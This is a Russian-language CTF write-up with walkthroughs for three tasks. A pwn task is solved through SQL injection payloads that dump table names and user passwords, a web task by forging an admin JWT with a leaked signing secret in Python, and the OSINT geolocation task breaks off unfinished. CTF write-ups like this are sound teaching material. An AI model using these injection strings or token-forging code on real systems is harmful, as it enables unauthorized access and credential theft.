 # uctf24-wrtup

## Z00k33p3r [easy]
_Category:_ pwn

_Description:_
Welcome to the Z'OO `nc gmcher.ru 14009`


При обращении к заданию с помощью `nc` получим ответ:
```
Welcome!
Menu:
up - Sign up
in - Sign in
search - Facts
joke - Joke
exit – Exit
```

После регистрации через меню `Sign in` и входа через меню `Sign up` мы получим доступ к меню `search` и `jokes`. Меню `jokes` не имеет для нас смысла, нас должно заинтересовать меню `search`, потому что оно подразумевает ввод текста.
Введя в поле ' мы должны будем обратить внимание на возникшую ошибку, что должно навести нас на мысль на отсутствующую проверку данных. Попытаемся ввести простейшую SQL-инъекцию вида `' or 1=1; --`:
```
Enter animal name: ' or 1=1; --

Elephants are the largest land animals on Earth.
Blue whales are the largest animals on Earth. Their hearts can weigh as much as an automobile.
Giraffes only need to drink once every few days. Most of their water comes from the plants they eat.
Lions are the only cats that live in groups, called prides.
Tigers are the largest wild cats in the world.
Polar bears have black skin and although their fur appears white, it is actually transparent.
Koalas sleep for up to 18 hours a day.
Kangaroos can't walk or move their hind legs independently of each other.
Every zebra has a unique pattern of black and white stripes.
Penguins are birds, but they cannot fly. They are excellent swimmers instead.
Octopuses have three hearts.
Cheetahs are the fastest land animal, reaching speeds up to 70 miles per hour.
Crocodiles have a powerful bite but cannot chew. They swallow their food whole.
Leopards can carry their prey up into the trees to keep it away from scavengers like hyenas.
```

Дальше нам необходимо понять какая база данных используется в задании. Воспользовавшись стандартным запросом к таблице information_schema мы получим ошибку. Попробуем следующее:
```
Enter animal name: ' union select name from sqlite_master where type='table'; --
facts
users
```

Таким образом мы поняли что используется бд sqlite и в ней на данный момент содержится две таблицы `facts` и `users`.

Если мы попытаемся объединить вывод как есть, то получим ошибку о том, что количество столбцов не совпадает. Можно предположить, что в таблице `facts`, с которой мы будем соединять наши запросы количество полей меньше, чем в таблице `users`, и тогда придется немного изменить запрос, сократив выводимый столбец до одного:
```
Enter animal name:  ' union select password from users --
!QwQUwUOwO!
ExecMakesShiffSniff12
Krut0g3d0nRul35!
MaPassword123!
Th1515V3ryStr0nGP@ssw0rd4Adm1n!1!
```

Дальше необходимо войти под администратором и появится новый вариант меню - `flag`, где мы его и получим.

## AUTH! [easy]

_Category:_ web

_Description:_
GUUUYS, i saw her secret!!!

`3cf2aa4a8a5180a39b7931fe4cf619f2bae417a7d77dda90c323d85f931c6821`

P.S. first of all, it's API

Для подключения: `https://auth.uctf.xotohop.tech/`

_Для общей информации:_ JSON Web Token (JWT) — это специальный формат токена, который позволяет безопасно передавать данные между клиентом и сервером.
Структура JWT состоит из трёх частей, которые разделены точкой: 
* Header (заголовок) — информация о токене, тип токена и алгоритм шифрования. 
* Payload (полезные данные) — данные, которые нужно передать в токене. Например, имя пользователя, его роль, истекает ли токен. Эти данные представлены в виде JSON-объекта. 
* Signature (подпись) — вычисляется на основании первых двух частей и зависит от выбранного алгоритма. В случае использования неподписанного JWT может быть опущен.

Обычно JWT token отправляется в заголовке вида `Authentication: Bearer {token}`, но в данном задании можно заметить, что никаких header-ов в приложение на направляется, а значит JWT-токен используется в самописном решении для аутентификации и, возможно, его хранение и валидация осуществляются как-то иначе, чем обычно. JWT-токен будет действительно безопасным средством аутентификации и авторизации только в случае корректной реализации механизма его работы. 

Начнем с простого обращения:
```
r = requests.get("https://auth.uctf.xotohop.tech/")
print(f"{r.status_code}: {r.text}")

>>> 200: {"welcome":[{"/login":"to login"},{"/register":"to registrate"},{"/flag":"to get flag"}],"P.S.":"U have no chance against my authenitication!"}
```

Отправив GET-запрос на указанные эндпоинты получим уведомление `405 - Method not allowed`. Попробуем сделать POST-запрос и получим уведомление о необходимости добавить `username` и `password`. Отправить payload в формате json не получится, приложение его не примет. В таком случае попробуем использовать отправку параметров через URL.

```
r = requests.post("https://auth.uctf.xotohop.tech/register?username=MrP3lm3sh&password=P@ssw0rd")
print(f"{r.status_code}: {r.text}")

>>> 200: {"registration":{"status":"Success"}}
```

Войдем в приложение:
```
r = requests.post("https://auth.uctf.xotohop.tech/login?username=MrP3lm3sh&password=P@ssw0rd")
print(f"{r.status_code}: {r.text}")

>>> 200: {"login":{"status":"Success","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik1yUDNsbTNzaCJ9.Acp4r7_n6gFs4thcAXyJi3HvIBk_ubPYao_eCqs-tUQ"}}
```

Обратим внимание, что мы получили токен после входа. Попытавшись добавить этот токен к заголовку `Authentication: Bearer {token}` мы не получим никакого результата, однако `token` все равно будет требоваться. Попробуем подставить его также, как в предыдущие запросы:
```
my_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik1yUDNsbTNzaCJ9.Acp4r7_n6gFs4thcAXyJi3HvIBk_ubPYao_eCqs-tUQ"
r = requests.post(f"https://auth.uctf.xotohop.tech/flag?token={my_token}")
print(f"{r.status_code}: {r.text}")

>>> 200: {"get flag":{"status":"U are not admin >:0","flag":"No flag for u loser"}}
```

Попытаемся поискать способ обойти ограничение: похоже, что нам нужно сделать запрос как администратору. Если мы попытаемся использовать SQL-инъекцию, то приложение не отреагирует на специальные символы, но мы поняли, что разграничение осуществляется по токену, а в описании задания нам предоставили `secret`. Попробуем проверить наш токен и секрет с помощью jwt.io:

![image](https://github.com/user-attachments/assets/82b2a99d-cd42-4650-98a3-5b0f52758ea8)

Похоже, что секрет валидный и с помощью него мы можем подписать свой собственный токен. Для этого нам нужно посмотреть на содержимое нашего токена: в нем находится только поле `username`, алгоритм указан в заголовке. Так как при попытке регистрации и вводе имени `admin` мы получим информацию о том, что такой пользователь уже существует, то давайте попробуем подделать его jwt-токен:
```
data = {"username": "admin"}
SECRET_KEY = "3cf2aa4a8a5180a39b7931fe4cf619f2bae417a7d77dda90c323d85f931c6821"
ALGORITHM = "HS256"
encoded_jwt = jwt.encode(data, SECRET_KEY, algorithm=ALGORITHM)

r = requests.post(f"https://auth.uctf.xotohop.tech/flag?token={encoded_jwt}", )
print(f"{r.status_code}: {r.text}")

>>> 200: {"get flag":{"status":"Welcome, admin!","flag":"UCTF{DO IT BY YOURSELF}"}}
```

## 80+3+79+57+1+36+94 [easy]

_Category:_ osint

_Description:_
Едем кушац! >~<

Картинка: `https://disk.yandex.ru/i/A5Ics2dVVPe4PA`

Флаг в формате UCTF{название ресторана (без нижних подчеркиваний)}

Название задания важно!

В задании мы получили ссылку на фотографию с вопросом в названии `whereami`:

![image](https://github.com/user-attachments/assets/1fd5d8a6-e603-4128-8e0c-64d68700aad3)

С помощью этой фотографии можно отследить геопозицию где была сделана эта фотография - Невский проспект.
![image](https://github.com/user-attachments/assets/4fb91452-0242-4486-9e0f-b19234df25c2)

Нас предупредили, что название задания важно, поэтому давайте сложим цифры задания - 350.

От нас ждут название ресторана. Давайте попробуем использовать навыки, которые требует osint - умение пользоваться Интернетом.

![image](https://github.com/user-attachments/assets/282a6918-e9ed-4ef2-aae2-2c70f96e18a2)
